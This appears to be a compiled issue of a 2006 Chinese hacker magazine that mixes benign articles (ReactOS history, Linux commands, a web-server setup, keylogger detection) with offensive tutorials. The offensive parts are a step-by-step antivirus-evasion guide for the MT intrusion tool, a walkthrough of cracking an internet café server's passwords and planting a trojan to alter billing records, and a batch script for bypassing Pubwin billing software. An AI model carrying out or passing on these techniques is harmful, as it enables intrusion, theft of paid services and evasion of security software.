#include <FileName.h>   // 告诉编译器到 VC 系统目录去找
#include "FileName.h"   // 告诉编译器在当前目录找
```

## 运行其它程序

```cpp
ShellExecute(NULL, "open", "mailto:netvc@21cn.com", NULL, NULL, SW_SHOWNORMAL);
WinExec("notepad.exe", SW_SHOW);
```

## 检测程序中的括号是否匹配

把光标移动到需要检测的括号（如大括号 `{}`、方括号 `[]`、圆括号 `()` 和尖括号 `<>`）前面，键入快捷键“Ctrl+]”。如果括号匹配正确，光标就跳到匹配的括号处；否则光标不移动，并且主机喇叭会发出一声警告声。

lattcye以前一直幻想着，既然有人能模仿UNIX写个Linux出来，那为什么到现在还没有人能模仿Windows写个XXdows出来呢？然后必定又有一个辉煌的历史……

寻寻觅觅，居然发现了ReactOS。虽然它没有辉煌到连卖菜的阿婆也知道的地步，但到目前为止，它也有不少的fans和为之努力的人。

## 开源的 Windows? — ReactOS

ReactOS is a project to develop a free software/open source operating system that is object code-compatible with Microsoft Windows NT and Windows 2000 applications and drivers. The project is currently in the pre-'Alpha' development stage, although some of the project's goals and milestones have already been achieved as of November 2005.

ReactOS是一个开源操作系统项目，它开发与Windows NT/2000兼容的应用程序、硬件驱动。本项目目前虽然只是处于内部测试（alpha）开发阶段，但到2005年11月，其中一些子项目已经完成。

ReactOS is primarily written in C, with some elements like ReactOS Explorer, written in C++.

ReactOS主要是由C语言编写，部分元件则由C++编写，例如ReactOS文件浏览器。

### 一、历史

Around 1996, a group of open source developers started a project called FreeWin95, with the aim of implementing an operating system that would be a clone of Windows 95. The project stalled in discussions of the design of the system.

大约在1996年，一群开源软件开发者启动了一个名为FreeWin95的项目，旨在实现一个Windows 95的克隆操作系统。这个项目当时最终陷在系统实现的讨论上。

At the end of 1997, the project still had no results. The project members called to revive the project; the project's target was changed to Windows NT, and the project's name was changed to ReactOS. The ReactOS project began in February 1998, with developing the kernel and basic drivers.

到了1997年年末，项目依旧没有进展，开发成员呼吁重新开始这个项目，而实现的目标也改为Windows NT系统，同时项目名称命名为ReactOS（react：反抗）。1998年2月ReactOS项目正式启动，开始开发系统内核和基本的驱动程序。

### 二、功能概述

As of 2005, the ReactOS kernel is quite stable, many APIs and ABIs are ready for a higher level of development, and a basic GUI is available. ReactOS features ReactOS Explorer, which is a basic shell for ReactOS, similar to Windows Explorer.

到了2005年，ReactOS内核已经十分稳定，大多数给上层程序开发使用的API均制作完成，并且拥有了一个基本的GUI窗口界面。ReactOS已经具有一个与Windows浏览器类似的ReactOS Explorer作为系统操作界面。（图1）


Version 0.2.0 of ReactOS is able to run many Win32 applications, including Notepad (a basic text editor), Regedit (the registry editor), Cmd (the command-line interpreter), and several other applications (such as AbiWord) and basic games (such as Quake and Quake II, and the Wine clone of Minesweeper).

ReactOS 0.2版可以运行相当多的Win32应用程序，并拥有自己的Notepad（记事本，基本的文本编辑器）、Regedit（系统注册表编辑器）、Cmd（命令行提示符），还有其他的大型应用程序（比如AbiWord文字编辑器）及一些游戏（Quake和Quake II，Wine的扫雷克隆）。

Since 0.2.6, Dillo, mIRC and DCOM components of the Mozilla Firefox web browser (using the Gecko rendering engine) run in ReactOS. Some games like Unreal Tournament and Deus Ex are confirmed to work using software rendering. Also OpenGL runs with some minor problems, using the nVidia driver or the software implementation Mesa 3D. And the first web server (Tiny Web Server) and the UltraVNC Client are reported to work. As shown in the screenshot on the right, even OpenOffice.org (Version 1.x) works partly.

自0.2.6版起，Dillo、mIRC和网页浏览器Mozilla Firefox（使用Gecko渲染引擎）的DCOM组件可在ReactOS内运行。部分游戏如Unreal Tournament和Deus Ex则能以软件渲染的方式运作。使用nVidia Driver或者Mesa 3D的软件实现，OpenGL也可运行（有一些小问题）。此外，Tiny Web Server和UltraVNC Client也被报告可用。右图显示OpenOffice.org（1.x版）也可部分运行，只剩下一些小问题。

As of Version 0.2.8, some elements of TCP/IP networking work, as well as a better number of applications, such as Notepad, AbiWord, OpenOffice, Deus Ex, and Unreal Tournament. Sound and USB support is still being worked on (SB16 works partially, and USB OHCI and UHCI work is still being undertaken). The USB functionality is "borrowed" from Cromwell. Plug and Play work has also begun, as has the move to support WDM. In addition to the Lynx text-based browser, ReactOS can use DCOM components from Mozilla to browse web pages graphically.

及至版本0.2.8，TCP/IP的部分元素开始运作，还有更多的应用程序例如Notepad、AbiWord、OpenOffice、Deus Ex和Unreal Tournament等。声音及USB支持尚在制作中（SB16已能部分工作，USB OHCI和UHCI则仍需开发），USB功能“借”自Cromwell。Plug and Play开发工作也已经展开，并且开始支持WDM。除基于字符的网页浏览器Lynx外，ReactOS还可以用Mozilla的DCOM组件以图像方式浏览网页。

## 菜鸟的MT免杀方案

## 黑品免杀班

- 从本文你可以学到：
- 通用的过瑞星的修改法
- 如何用vmprotect加密文件区段
- 特殊情况下利用段入口点过卡巴等杀毒软件

### 1、前言

想必说起MT这款国产的超级工具，大家都不会陌生。可以说它是入侵的必备利器，只需要一个cmdshell配合MT就可以完成许多强大的功能。当然，树大招风，可怜的MT早已经被杀毒软件大家族杀得体无完肤，令人欲呕！并且我们入侵的服务器上几乎全装上了各式各样的反病毒软件，MT传上去还没运行就被文件防火墙给干掉了。一些朋友向我反映这个问题，同样是个超级菜鸟的我怎么也不能袖手旁观吧，下面就介绍一下如何改造MT来躲避杀毒软件的查杀。

### 2、瑞星的通用躲避技

我们先用PEiD载入MT的程序，发现是UPX的壳，接着利用UPXShell打开MT后执行解压缩，就可以成功脱壳。有些黑器只是简单地通过加壳和脱壳就能成功免杀。现在瑞星在这方面有所加强，起码一般流行的压缩壳是绝对不行的了。但是想要躲避瑞星还有一个非常实用的方法，记得公子哥发布过的一个做工具免杀的动画，只需要修改文件头的汇编语句就可以完全通过瑞星。就是利用OD把push ebp修改为pop ebp来实现，今天我们就利用这个方法来对MT作免杀介绍。


## 3、简单PASS江民

上面的手法，只是逃过了瑞星的追杀。那江民的KV呢？其实，针对江民做免杀也是非常容易的事情，我还是介绍最简单的方法：加壳。这里我选择的是PE加密个人版，用其打开脱壳的文件mt0并点击“加密”，选择默认配置即可。然后将加密完成的mt0改为mt2，并把自动生成的备份文件改为mt0.exe，利用瑞星和江民分别进行查杀。


## 4、利用vmprotect加密玩转诺顿和瑞星

早先接触vmprotect这个工具，是有关木马pcshare的sys文件的免杀处理。vmprotect可以对特定区段进行加密而避开杀毒软件。这里我们就以脱壳后的mt0来进行区段加密……

选择入口点附近的一处地址，这里我选择004011F6，如图4所示。


接着用vmprotect打开mt0这个文件，在“工程”栏下选择“添加地址”，输入004011F6就得到该地址处的信息。我们选择下面的一处地址，鼠标右键选择“程序末端”后，点工具栏上的绿色三角快捷按钮，就可以编译好加密区段的文件了，如图5所示。


编译完成后选择执行程序，发现功能完全正常。然后我把以下文件传到虚拟机上，用最新版的诺顿进行查杀，结果如图6所示。

- mt.exe（原始文件）
- mt0.exe（脱壳后的文件）
- mt1.exe（修改起始为pop的MT）
- mt2.exe（只在mt0基础上的加壳文件）
- mt0.vmp.exe（利用vm加密mt0的文件）信息暂时未报。


MT1这个文件居然也能通过诺顿。另外，加壳前的和经过vm加密的MT都能轻松通过诺顿。喜的是免杀进行得比较顺利，悲的是现在大多数国内服务器都使用诺顿，如何谈得上安全？

我顺带利用NOD32对这几个MT文件进行了查杀，唯一不能通过的就是原始文件，说明只要脱壳完NOD32就给通行证了，如图7所示。

NOD32查杀病毒和木马的能力让人放心，但是对于辅助性的黑客工具，未免就太不重视了。瑞星则存在根本上的判断BUG；江民对于一些挂靠壳防范不够严密；而诺顿在这些方面均需要加强。当然，这里只是MT这个工具上的个人见解。其中最让人放心的就是卡巴斯基，以上所有文件全部能够查杀，如图8所示。


不仅如此，利用加花指令和JN多壳都过不了卡巴。下面我们就挑战今天最大的敌人：卡巴斯基！

### 5、改入口点过卡巴以及打造综合免杀

为了确定卡巴提取的特征代码是否存在于入口点，我们先利用CCL进行文件的手动定位，来找出杀毒软件提取到特征的具体位置。这个过程有些复杂，这里我已经做好了mt0.exe相对于卡巴的定位结果：

| 序号 | 起始偏移 | 大小 | 结束偏移 |
|---|---|---|---|
| 0001 | 00000000 | 000000C8 | 000000C8 |
| 0002 | 0000012C | 00000064 | 00000190 |

用C32Asm的反汇编功能打开后，不难发现，修改位于其中的F0 11就能完成免杀了。我们用Peditor加载mt0后便一目了然。只要在入口点+1，这里就是将000011F0修改为000011F1，如图9所示。应用更改后MT已经顺利通过了卡巴，我这里就不再截图了。


MT的特征都在入口点，这样使得简单通过冰峰文件防火墙等的傻瓜填充方式失去价值（因为冰峰和boiler这样的工具是修改一段特征为0，而入口点改成0就会导致程序不能正常运行，这就是为什么许多朋友用冰峰等制作出的MT全部不能运行的缘故了），但却在Peditor面前轻易倒下。这样脱壳后的文件只是修改了入口点便通过了当前的流行杀毒工具，真有些让人难以置信。

针对综合免杀，不仅可以通过修改入口点来实现，同时也可以巧妙利用上面的方法。我们使用第一个方法使mt通过瑞星，其实可以再加上一个渐进突出的强壳NsPack 3.6。如果仅利用这个壳，除了瑞星不能通过，连卡巴都可以顺利PASS掉。

不过，要是结合起来，把修改后的mt1再加上NsPack 3.6的壳，就可以通过所有杀毒软件了。当然，综合利用的方法也可以结合vmprotect来制作，就留给大家自己发挥吧。

### 6、总结

其实在这次免杀的制作中我也遇到不少难题，例如傻瓜型的大面积修改特征码导致文件不能正常运行，手动定位后只要修改入口地址运行后就会出错，即使Peditor的校验和重建也不起作用等，这些正是杀毒软件的聪明之处，但是也给我们创造了快速免杀的方法。这叫什么——聪明反被聪明误。不过，可能杀毒公司面对众多的病毒木马后，也是难免力不从心，不可能一个一个对每个变种都做得很详细，这些客观原因也给了我们可乘之机。在实践中不断充实自己和学习知识，的确是一件美好的事情。最后随盘送上我制作的全免杀MT，希望大家喜欢。

> 【文中所涉及的mt、PEiD、NsPack、Peditor等相关工具，已经收录在光盘中】

## 阻止“七剑”下山行恶

天使小优

- 从本文你可以学到：
- 如何寻找可疑程序
- 通过WinHex获得木马敏感信息
- 如何判断程序是否能进行网络通讯

现在的网吧真是木马多，上网之前还要经过十几分钟的检测。确保没有可疑程序了，才敢开QQ、玩网游。这不，今天又碰到一个盗号木马，看来又要浪费我一点上网时间了。

### 一、寻找可疑程序

和往常一样，只要遇到网吧上网，我会首先从网络上下载IceSword来检查一下系统里是否有可疑进程。通常我会依次检查进程、端口、启动项、服务，至于分析是否有可疑程序就完全依靠自己的经验了（如果你还不具备这样的经验，请找找相关资料看看，不懂可以来NoHack论坛交流）。在启动项里发现了可疑键值qijian.exe，该键值位于 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，是在系统启动后自动执行的，如图1所示。


### 二、分析可疑程序

既然系统启动会自动运行，为什么在进程里没有看到它的身影呢？看来该程序进行了无进程处理，很有可能是DLL木马。然后我依次查看Winlogon.exe、iexplore.exe以及explorer.exe等程序的模块。

> 为什么要查看这些进程模块呢？因为大多数DLL木马都是把其自身注入到这些进程当中，如果你对系统的常用DLL、DRV文件有所了解，就可以轻松发现可疑的DLL文件，有可能就是DLL木马哦！

在explorer.exe的模块中发现了可疑DLL文件qijian.dll，如图2所示。为了证实qijian.dll只插入到explorer.exe进程里，我使用“卡卡进程管理器”对qijian.dll进行相关搜索，结果显示只发现了一个qijian.dll，如图2、图3所示。


接下来我用WinHex打开qijian.dll，搜索“.com”，目的是试试看能否找到一些敏感信息，如e-mail地址。结果找到了该程序的身份，该程序的名称是“七剑键盘记录器”，如图4所示。


于是我去网上找一个“七剑键盘记录器”来研究一下。为了保险起见，在做这类敏感实验的时候，可以去虚拟机里面运行。经过测试，我发现配置好的“七剑键盘记录器”服务端运行之后，确实只对explorer.exe插入qijian.dll，从而证明了我上面的分析是正确的，如图5所示。


但是免费版本有个问题，当发信时间到了后会有提示，如图6所示。


### 三、清除七剑

清除“七剑键盘记录器”也很简单，在图2里面选择qijian.dll，点击“Unload”按钮即可清除explorer.exe中的qijian.dll，然后去system32目录中删除相关程序即可（可以直接利用IceSword的文件管理功能）。


## 最后

IceSword 虽然能直观地显示一些系统内隐藏程序，但是判断是否有可疑文件，还是要通过平时积累的经验来进一步分析和判断。祝大家天天进步。

> 【文章中所涉及到的 IceSword、WinHex、卡卡进程管理器，已经收录在光盘中】

作者清除 qijian.dll，是直接通过 IceSword 来卸载 explorer.exe 中的 qijian.dll。这会直接导致 explorer.exe 自动结束运行，结束后桌面一片空白。大家可以用 Ctrl+Alt+Del 调出任务管理器，然后在任务管理器中运行 explorer.exe，即可恢复正常。

> 如何确定程序是否能进行网络通信？网络通信程序必须调用 ws2_32.dll 来进行通信，只要我们通过 WinHex 来搜索可疑程序里是否有“WS2_32.dll”，就能判断该程序是否能进行网络通信了，如图1所示。

## 窗外

latteye 去上海听了场 Sun 公司的讲座……对于工具，选择适合自己及场合的就可以了。偶像如果黑马被取缔……但剑只是剑！它永远都无法代表邪恶或是正义！一切只在用剑的人。


《窗外》栏目专为广大侠客提供了相互交流的平台，欢迎大家来讲述自己的经验技巧。投稿请发至 latteye@163.com。


Vista 的姿势引发了业界无数争论……各位又可以拿来逗乐了。

## Novell 发布新版桌面 Linux，期望超越 Windows

Novell 公布了将出现在新版台式机 Linux 中的功能，并声称它的可用性要好于目前市场上其他任何台式机操作系统……希望 Novell 不要让我们失望。

## iPod 也能运行 Linux，iPodLinux 成功移植

想象过在 iPod 上运行 Linux 操作系统么？iPodLinux 就是一个旨在将 Linux 移植到 iPod 上的开源项目……

对更新型号的移植工作也正在进行当中，包括 4 代触摸式操控版、mini、U2 特别版、Photo/Color iPod、Nano 和 Video iPod……


## IBM 发言人：员工使用 Linux 并非抵制 Windows

IBM 部分使用 Linux 操作系统的员工最近听到公司缩减使用 Windows 操作系统的传言……理智的人总是有自己的需要去挑选工具的。

## 可爱胖企鹅赶开学里跑 Linux

Tux 一直在我们心中占有一席之地……（介绍 Linux 吉祥物企鹅 Tux 造型机壳与迷你主机配置、价格等内容）


## 笨鹅诀飞

本文以 RedHat 9 为例给大家介绍 Linux 中常用的文件管理命令。

### 1. ls

- `-a`：显示所有文件和目录（包括隐藏的）
- `-l`：显示详细信息  
如 `ls -al`（图1）

### 2. cd

`cd [绝对目录/相对目录]`，切换目录。

### 3. cp

```bash
cp /home/alas/alas.txt /root
```

- `-f`：有同名文件或目录就覆盖
- `-R`：复制目录下所有文件和子目录（大写 R）

### 4. mv

```bash
mv alas.txt gzq.txt
```

### 5. rm

- `-f`：直接删除，不需确认
- `-r`：删除目录及目录下文件

### 6. mkdir

```bash
mkdir alas
```

### 7. pwd

显示当前用户所在目录。（图2）

### 8. cat

```bash
cat alas.txt
cat 1.txt 2.txt > 3.txt
cat 4.txt >> 5.txt
```

### 9. more

more 命令用于分页显示文件内容；空格下一页，B 上一页，Q 退出。

### 10. touch

```bash
touch -r 1.txt 2.txt
touch -d "09:45pm 02/22/2006" 1.txt
```

### 11. tar

tar 命令用于把许多文件打包成一个文件。

### Alas

（右栏）介绍 tar 压缩打包、chmod 权限设置及总结说明。

```bash
tar cvf alas.tar *.*
tar cvfz alas.tar.gz *.*
tar xvf alas.tar
tar xvfz alas.tar.gz
```

### 12. chmod

```bash
chmod 777 alas.txt
```

> 编辑点评：Linux 下对命令的依赖性很高……适应环境。


## Mulinux 下快速搭建 WEB 服务器

每夜醉不归

基于 Web 技术的 Internet/Intranet 近年来已经得到了广泛的应用。在许多用户看来，一个 Web 网站的成败主要在于它所提供的内容和功能，而支持这些内容和功能的 Web 服务器都起着非常重要的作用。

### 一、常见的 WWW 服务器

- 1. CERN httpd

这是最早期的 WWW 服务器软件，UNIX 下古董级的 WWW 服务器，有兴趣的话可以在 `ftp://ftp.w3.org/pub/afs/w3.org/ftp/pub/httpd/` 中找到它。

- 2. NCSA httpd

这是美国国家超级计算机应用中心（NCSA）在 1995 年创建的 WWW 服务器。C 语言开发，程序小、速度快，但已经不再升级了。由于它与众不同的出身，可以在 `ftp://ftp.ncsa.uiuc.edu` 中找到。

- 3. Apache

Apache 是举世闻名的服务器。Apache 以它的稳定、安全、高效在 Linux/UNIX 下的 WWW 服务器中占据着重要地位。据说全世界 50% 以上的 WWW 服务器都是它。它是在 NCSA 的基础上开发出来的，并一直高速发展着。

### 二、Muhttpd

对于 Linux 新手来说，构建一个安全的 Apache Web 服务器还是有相当难度的。本文将向大家介绍如何利用“muhttpd”在 Linux 下快速搭建 WEB 服务器。

muhttpd（mu HTTP daemon）是一个由 ANSI C 编写的简单而又相当完整的 WEB 服务器。Muhttpd 支持静态页面、CGI、脚本语言和 MIME。Muhttpd 可以在多种不同的开放操作系统中使用，如 GNU/Linux、NetBSD、FreeBSD、Mac OSX、Cygwin。硬件方面，Muhttpd 在 32 位和 64 位处理器的服务器中运行也很稳定。Muhttpd 在安装使用上相对 APACHE 要简单得多，比较适用于对 WEB 服务要求不高的环境。

#### 1. Muhttpd 下载及安装

从 `http://inglorion.net/software/muhttpd/` 可以下载到安装于不同操作系统平台的 Muhttpd 压缩包。这里将以 Linux 操作系统为例，讲解 Muhttpd 的安装及配置过程。

使用下列命令即可完成 Muhttpd 的编译。Muhttpd 的默认安装路径是 `/usr/local`，同时所有功能也都是打开的。

```bash
./configure
make
make install
```

#### 2. Muhttpd 配置参数详解

用户可以根据自己的实际需求来修改 Muhttpd 配置文档，我们只要理解以下这些参数的含义，手动修改 `/etc/muhttpd/muhttpd.conf` 即可实现。

| 指令 | 描述 |
|---|---|
| port n | 监听连接的端口，默认是 80 |
| webdir path | 服务器文档放置目录，一般建议存放在 `/var/www` |
| webroot path | 定义 chroot 命令所在的路径 |
| type type ext | 定义支持的网页文件类型 |
| handler type program | 处理文件类型的默认应用程序 |
| include file | 读取配置文档 |
| index name+ | 定义网页目录的默认索引文件名 |
| user username | 在开始接受连接之前转向的用户名 |
| group groupname | 在开始接受连接之前转向的用户组名 |
| logfile file | 记录请求连接日志 |
| pidfile file | 启用 pidfile 功能并定义文件名 |
| nopidfile | 不启用 pidfile 功能 |

#### 3. 常用的 Muhttpd 配置

常用的 Muhttpd 配置文档示例，能帮助 Muhttpd Web 服务器管理员更方便地对 Muhttpd 进行配置：

```conf
port 80
webdir /var/www
logfile /var/log/muhttpd/logfile
user www
group www
index index.htm index.php
type text/html .html
type text/css .css
type text/plain .txt
type application/x-httpd-php .php
type image/png .png
type image/jpeg .jpg .jpeg
handler application/x-httpd-php /usr/lib/cgi-bin/php
```

> 编者感慨：想必有很多人对 IIS 留恋不已。拿着教程，5 分钟就可以搭建一个小环境。此文肯定可以让你有很温馨的感觉吧~！

【文中所涉及到的软件已收录于光盘中。软件如下：muhttpd-1.0.4.tar.tar】

2006 年 4 月，《黑客手册》创刊也有 1 年时间了。在这一转眼的时间里，偶也和大家在泡泡吧栏目里由陌生人成为了朋友。有人说，他自己有电脑，从来不上网吧的，所以对这个栏目没有多大兴趣。其实泡泡吧不仅仅是研究网吧的，从广义上来说是研究局域网安全的；所以学校机房、办公室等等的小型网络都是我们研究的范围。也许你现在还是学生，也许你已经走上工作岗位了，但我想你一定在局域网中使用过电脑吧。所以请大家关注泡泡吧栏目，有什么好点子可以告诉我们，给我们多提意见哦……

## 浅谈网吧免费上网

- 从本文你可以学到：
- 网吧管理软件的 3 种突破方法
- 3 种突破方法对应的防御方法

如今的网吧已经成为人们沟通联络、休闲娱乐的重要场所。但是总有那么一部分人喜欢不劳而获，想方设法通过各种方式来免费上网，这样做不但会给网吧的安全带来危害，还给网吧的拥有者造成了大量的经济损失，是一种极不道德的行为。为了避免网吧电脑的使用者通过各种方式免费上网，给网吧拥有者造成不必要的损失，今天就为各位网吧管理员介绍防范各种免费上网的高招。

## 免费上网第一招：无中生有

本小黑行走江湖，寻找各个门派的免费上网秘籍，不敢独享，拿来与菜鸟们分享，下面就先来第一招——“无中生有”。要想通过更改用户数据库的方法，让自己免费上网，首先需要知道网吧主机的 IP 地址才行。点击“开始”菜单中的“运行”命令，接着在弹出的窗口中输入 gpedit.msc 并确定，打开“组策略”窗口。点击“用户配置”下“管理模板”中的“系统”，双击“停用命令提示符”选项，选中“已停用”这项，这样操作就可以轻松地突破网吧管理软件的命令提示符以及 Windows 命令行下工具的使用限制。

接着点击“开始”菜单中的“运行”命令，在弹出的窗口中输入 cmd.exe 并确定，打开命令提示符窗口，在窗口的命令行中输入 ipconfig /all，在返回的信息中找到网吧主机的 IP 地址 192.168.0.1 以及本机的 IP 地址 192.168.0.6（一般网吧均使用类似的内网地址）。然后运行准备好的“阿D网络工具包”，点击“工具”菜单下的“肉鸡查找”命令，在出现的操作界面中进行设置。先在操作界面的“IP”选项中设置为 192.168.0.1，然后点击“开始查找”按钮，程序就会自动对网吧主机的账号密码进行破解。如果运气好的话，用“阿D网络工具包”自带的弱口令就可以成功破解网吧主机的账号密码，接着和网吧主机成功进行 IPC 连接。

成功连接到网吧主机以后，点击“Win2000 远程管理”按钮来查看网吧主机的一些相关信息，包括系统信息、系统服务、用户和组以及共享文件夹等等，如图1所示。


图1  网吧主机的相关信息

通过对这项信息的查看，我们可以掌握一些相关的信息，正所谓“知己知彼，百战不殆”。然后通过程序的“种植者”功能来上传我们配置好的木马程序。点击“木马种植”按钮，在弹出的“木马种植机”窗口中进行设置，程序已经自动将主机、用户名、密码等选项设置好了，我们只需要点击“本地文件”后的按钮来选择需要生成的木马程序就可以了。设置完成后，点击“开始”按钮，程序就会自动地将程序上传到网吧主机的系统中，然后自动运行它，如图2所示。


图2  木马种植机界面

下面开始连接木马的服务端程序，连接成功后，找到网吧管理程序所在的目录，并下载其中的数据库文件到本地。用工具将其打开，找到自己的账号后对账号余额进行修改就可以了。修改完成后，利用工具将网吧管理软件的进程结束，然后再将修改后的数据库文件复制到网吧管理软件的数据库目录下。以后，我们使用这个账号就可以免费上网了。

## 破解、加固系统

这招“无中生有”并无多少新意，看我小小的“招云式”就能轻松地化解它。

- 第一式：及时更新系统补丁程序。这样可以防止黑客从互联网中进行的入侵，也可以防止网吧用户通过系统漏洞进行网吧主机的远程溢出，以及在本地计算机上进行的权限提升。
- 第二式：关闭不必要的系统共享。网吧主机很多都是使用服务器版本的操作系统，这类系统默认打开了很多系统共享，这些系统共享对于网吧管理来说不仅毫无必要，而且还存在着很多安全隐患。所以管理员应当尽早关闭不必要的系统共享，以免给黑客提供方便之门。
- 第三式：加强管理员账号的密码强度。现在很多网吧的管理员账号密码设置得过于简单，有一些甚至是空密码，这样就很容易被黑客所破解。建议管理员将密码设置为 8 位数以上，最好是字母、数字和其他符号的组合，这样可以提高破解的难度。

## 免费上网第二招：瞒天过海

如果第一招“无中生有”不行的话，且看我的第二招——“瞒天过海”。我们平时最常见的免费上网方式就是在开机的时候迅速按下“Ctrl+Alt+Del”键，然后终止网吧管理软件的进程。但是这种方式迅速引起了网吧管理软件开发商的注意，所以各家开发商都采用了不同的方法来保护自己软件的进程不被用户终止，比如采用线程插入技术、多进程技术等等，这样用户就很难再轻易地终止网吧管理软件的进程了。

其实与其强攻，不如智取。这里我们只要使用一款名为“机时小偷”的工具，就可以实现我们免费上网的目的。

遇到网管软件在结束下机后会马上重新启动的情况，你就用冻结程序的办法来实现免费上网。大概过程就是，在你上网卡的余额快要用完的时候，运行“机时小偷”，设置一个较短的时间，并且选中“功能选择”中的“冻结程序”选项，然后将网管软件激活为当前窗口。这样，当网管软件被冻结后，你的目的就达到了。

遇到网管软件在结束下机后不会重新启动的情况时，除了用上面的方法外，还可以使用另一种方法简单实现免费上网。具体方法是：设置一个恰当时间，选中“运行窗口”，然后将“隐藏界面”或“暴力破解”选中，如图3所示。

现在你就可以结账下机了，等到我们设置的时间一到，你就会看到锁定的电脑屏幕上出现了一个显示桌面图标的窗口，下面就是免费上网时间了。

## 破招：绞杀“黑软”

这招“瞒天过海”看似不错，不过网管也可以轻松地化解。

- **第一步**：安装最新版的网吧管理软件。新版软件除了会及时修补软件本身存在的漏洞以外，还会针对现有的破解方式提出相应的解决方案，这样用户就很难通过破坏网吧管理软件来进行免费上网了。
- **第二步**：安装最新版的杀毒软件，并及时更新软件的病毒库。现今很多网吧管理软件的破解工具已经上了杀毒软件的黑名单，所以通过杀毒软件就可以及时地对这些破坏网吧秩序的工具进行绞杀。

## 免费上网第三招：釜底抽薪

看来必须使出我的独门绝技了，且看我的第三招——“釜底抽薪”。这可是最近才出现的一种新的免费上网方式。它实际上就是通过在客户机上安装一个可以管理端口的网络防火墙，然后关闭网管软件的通信端口，阻止客户机和网吧主机之间的网络通信，这样网吧主机就无法为客户机提供消费查询等服务，我们也就可以实现免费上网了。这种情况在阻止了计费通信的同时，也往往会使我们的上网受到影响，不过只要对防火墙的网络规则进行一下调整就可以了。

## 破招：组策略当关

正所谓“兵来将挡，水来土掩”，你有绝技，我有妙招。你不是要运行防火墙吗，我就让它运行不了，我只允许指定的程序运行，看你如何免费上网。点击“开始”菜单中的“运行”命令，接着在弹出的窗口中输入“gpedit.msc”并确定，打开“组策略”窗口，点击“用户配置”下“管理模板”中的“系统”，进入“只运行指定的 Windows 应用程序”项目，选择“已启用”选项，然后在下面的“允许的应用程序列表”中设置可以运行的程序。这样，除了我允许的程序外，什么程序都不能用。

> 辅助文章：  
> 《网吧风云之御猫斗五鼠》  
> 作者：yacou 05 年 10 月 F6 第 77 页  
> 《玩转组策略增强服务器安全》  
> 作者：WZH 05 年 12 月 F8 第 81 页

纵横点评：本文作者列举了 3 种常见的网吧破解方法，同时给出了防御措施，让网管们在实际应用中达到“知己知彼，百战不殆”的境界。不过俗话说“道高一尺，魔高一丈”，尽管管理员在组策略中做了种种限制，高手机还是会想出办法来恢复组策略，让人防不胜防啊！


## 打造终极的 Pubwin 破解

- 从本文你可以学到：
- 批处理程序的高级应用
- Pubwin 的一种快速破解方法

曾几何时，写过一篇《45s 破解 Pubwin4》的文章（以下简称《45s》）。当时催得急，回头看时颇觉行文仓促，让人颇为不爽。《45s》是自己实验后的结果（偏手慢），其实根本用不着那么慢的啊！而且上次说到无法连接 Internet，更是让人……于是就有了此篇《Pubwin 的终极破解》！本篇中不仅解决了不能联网的历史遗留问题，而且破解速度和技术含量都有提高。前面的话就到这里，下面进入正文！

照《45s》中的方法，每次上机时都要做一次，甚是麻烦，于是我就想先写好个文件，到时候一运行就万事大吉了。说到写文件，当然是菜鸟朋友的专利——批处理。偶写批处理一方面是为了快速破解，另一方面也希望菜鸟朋友可以从中学到批处理编写的相关知识。至于联网的问题，还要感谢付见给我启发，让我写出了批处理，其实改 IP 就可以了！Pubwin 阻止某台机器是否可以访问网络，是依赖服务器上各个机器的状态：上机状态可以访问 Internet，而锁定状态的机器却被禁止。但是它却忽略了网络上不存在的 IP 该怎么处理的问题。经过测试，修改了源 IP 为一个不存在的 IP 后就可以上网了。其实这就像有些网页脚本的上传漏洞一样，它应该设置谁允许，而不是禁止哪个。好了，言归正传，下面来看批处理，需要有一些批处理的相关知识哦！我会在批处理中写一些重要注释。

```bat
rem CodeStart
@echo off
@cls
@echo.
@title PubwinCracker.bat
@if "%1"=="" goto usage
@if "%1"=="kill" goto kill
@if "%1"=="ip" goto ip
...
@echo Parameter error!
@goto end
:usage
@echo PC.bat (PubwinCrack) by Fornever 2006.2.28
``````bat
@echo usage:%0 [Kill/ip_Addr/r]
@echo        Kill:Kill pubwin.exe from memory
@echo        Addr:IP address which hasn't been used in LAN
@echo        r    :Resume correction
@echo
@echo example to kill :/pc ip 192.168.0.21 /pc
...
(大量批处理脚本代码，包含 netsh / for / if / goto / error 处理等)
...
```

```bat
@goto end
:error2
@echo Correct IP failed!
@set ip= & set ip1= & set i= & set j= & set k= & set mask= & set gate= & set gatewaymetric=
@del /f /q task.txt
@goto end
:error3
@echo Connect Internet failed!
...
:end
rem CodeEnd
```

保存以上代码为PC.bat。如上所示，PC.bat有两个功能：修改IP和恢复所做的修改。注意，修改的IP和源IP的前三位地址要一致。由于虽然修改了IP后可以上网，但是一旦Pubwin.exe再次运行，就会出现无法与Pubwin服务器建立连接的错误，因为你修改的IP是一个初始时局域网中不存在的IP，如果修改为已经存在的IP就会出现IP冲突。因此使用完IP Addr参数后，当你玩得实在不想再玩的时候就用r参数来恢复所有的修改，做事情要尽量做到完美嘛！为了菜鸟朋友更清楚地理解本地处理，我加进了错误处理及提示，当程序出错时可以根据相关提示寻找问题出在哪里。taskkill和reg命令是在WinXP以上系统才有的命令，对于Win2000的朋友，用kill.exe和一个操作注册表的脚本，修改几句批处理代码就可以达到同样的效果了，脚本代码如下：

## js代码

```javascript
var WshShell = WScript.CreateObject("WScript.Shell");
WshShell.RegDelete("HKEY_LOCAL_MACHINE\\Software\\HINTSOFT\\...");
```

## vbs代码

```vbscript
Set WshShell = WScript.CreateObject("WScript.Shell")
WshShell.RegDelete "HKLM\Software\HINTSOFT\..."
```

把上面两部分代码分别保存为*.js和*.vbs（*是指文件名可以任意命名）就可以了，用哪个随你喜欢。用脚本是因为默认情况下Pubwin会禁止访问注册表，我也懒得解锁。对于Win98的朋友我只能说声抱歉了，因为很多cmd命令Win98是不支持的，而且在Win98下修改IP重启才会生效，要是有还原卡的话……你只有期盼网管快升级操作系统吧！

总的来说pc.bat是很方便的，不用一行一行地打烦琐的命令就可以一次完成kill Pubwin.exe和取消访问Internet的限制。破解完成后也许你会发现任务栏不在了，可以这样解决：在任务管理器中结束explorer.exe进程，就是桌面的进程；或者在桌面用输入法漏洞：点一下桌面，切换到智能ABC输入法，顺次按下“v”、“1”、“delete”和回车，等到桌面重新回来时，任务栏也就回来了。

> （本文提到的程序pc.bat在光盘中有提供。）

> 辅助文章：  
> 《全解Pubwin4》作者：星陨石碎，06年01月，F9，第72页  
> 《45秒破解Pubwin4》作者：星陨石碎，06年02月，F10，第66页  
> 《批处理文件简介与编写》网址：http://www.nohack.cn/bbs/viewthread.php?tid=3678

